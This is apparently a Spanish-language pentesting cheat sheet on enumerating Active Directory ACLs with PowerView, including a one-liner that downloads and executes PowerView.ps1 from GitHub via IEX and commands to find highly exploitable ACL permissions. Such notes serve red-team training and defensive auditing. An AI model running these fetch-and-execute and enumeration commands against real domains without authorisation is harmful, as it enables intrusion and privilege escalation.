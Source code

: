 ## Enumeración con PowerView

```powershell
# Descargar el binario desde un repositorio 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');
```

```powershell 
❯ Get-ObjectAcl Object-Name -ResolveGUIDs    

❯ Get-ObjectAcl | select AceType,SecurityIdentifier,ActiveDirectoryRights,ObjectDN | Format-List  # Enumerar ACL - ACE

Nota: En los ACE podemos encontrar este tipo de identificadores:
	# Security-ID cortas 'S-1-5-9' = Grupos por defecto en AD
	# Security-ID medianas 'S-1-5-32-557' = Grupos de Operadores 
	# Object-SID 'S-1-5-21-1861162130-2580302541-221646211-1124' = Pertenece a un usuario 

❯ Convert-SidToName SID      # Convierte el numero SID al nombre que le pertenece 
```

```powershell 
❯ Get-ObjectAcl | %{$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.Security-Identifier);$_} 

	# %{} = Es un bucle como un 'foreach'
	# $_ = Objetos que tenemos por 'detras', cada ACL
	# $() = Ejecutaremos un comando
	# $_. = Llamamos a un atributo en este caso a 'Security-Identifier'

❯ Get-ObjectAcl | %{$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.Security-Identifier);$_} | select AceType,IdentityName,ActiveDirectoryRights,ObjectDN | fl 

	# AceType = Es el tipo de acceso
	# IdentityName = Es un 'grupo o usuario'
	# ActiveDirectoryRights = Muestra los permisos que tiene el 'grupo o usuario'
	# ObjectDN = El objeto sobre el cual se tienen los permisos 

# Aplicamos una sentencia donde si es verdadero nos muestra la info y buscara solo las ACL que muestren 'adminwebserver' esto con el fin de ver que permisos tiene sobre que objeto
❯ Get-ObjectAcl | %{$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.Security-Identifier);$_} | ?{$_.IdentityName -match 'adminwebserver'} | select AceType,IdentityName,ActiveDirectoryRights,ObjectDN | fl 
```

```powershell
❯ Find-InterestingDomainAcl                  # Buscar ACL con permisos que sean altamente explotables 

❯ Find-InterestingDomainAcl | select AceType,IdentityReferenceName,ActiveDirectoryRights,ObjectDN | fl  

	# IdentityReferenceName = Nos regresa el nombre traducido del SID
```

